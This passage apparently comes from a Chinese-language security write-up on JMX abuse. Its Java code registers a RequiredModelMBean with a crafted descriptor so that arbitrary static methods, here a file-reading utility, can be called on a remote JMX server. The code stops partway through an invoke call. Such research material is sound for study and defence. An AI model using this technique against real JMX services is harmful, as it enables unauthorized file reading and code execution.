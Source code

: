 ```java
    con.unregisterMBean(objectName);
} catch (InstanceNotFoundException e) {
}
```

#### Invoking Arbitrary Static Methods

以`JavaUtils`为例

```java
public static ModelMBeanOperationInfo createModelMBeanOperationInfo(String declaringClass, String methodName, MBeanParameterInfo[] signature) {
    Map<String, Object> fields = new HashMap<String, Object>() {
        {
            {
                put("name", methodName);
                put("displayName", methodName);
                put("class", declaringClass);
                put("role", "operation");
                put("descriptorType", "operation");
            }
        }
    };
    Descriptor descriptor = new ImmutableDescriptor(fields.keySet().toArray(new String[0]), fields.values().toArray());
    return new ModelMBeanOperationInfo(
        methodName,
        null,
        signature,
        declaringClass,
        MBeanOperationInfo.UNKNOWN,
        descriptor
    );
}

public static void RegisterModelMBean() throws Exception {
    JMXServiceURL serviceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:2222/jmxrmi");
    Map env = new Properties();
    MBeanServerConnection con = JMXConnectorFactory.connect(serviceURL, env).getMBeanServerConnection();

    ObjectName objectName = new ObjectName("Test:type=test,name=3");

    ModelMBeanOperationInfo[] ops = new ModelMBeanOperationInfo[]{
        new ModelMBeanOperationInfo("setManagedResource",
                                    ModelMBean.class.getMethod("setManagedResource", Object.class, String.class)),
        createModelMBeanOperationInfo(JavaUtils.class.getName(), "getBytesFromFile", new MBeanParameterInfo[]{
            new MBeanParameterInfo(null, String.class.getName(), null)
        })
    };

    ModelMBeanInfoSupport model = new ModelMBeanInfoSupport("test", "test", null, null, ops, null);

    String className = RequiredModelMBean.class.getName();
    String[] ctorArgTypes = new String[]{ModelMBeanInfo.class.getName()};
    Object[] ctorArgs = new Object[]{model};
    con.createMBean(className, objectName, ctorArgs, ctorArgTypes);

    // set the managed resource to the serializable File object
    con.invoke(
        objectName,
```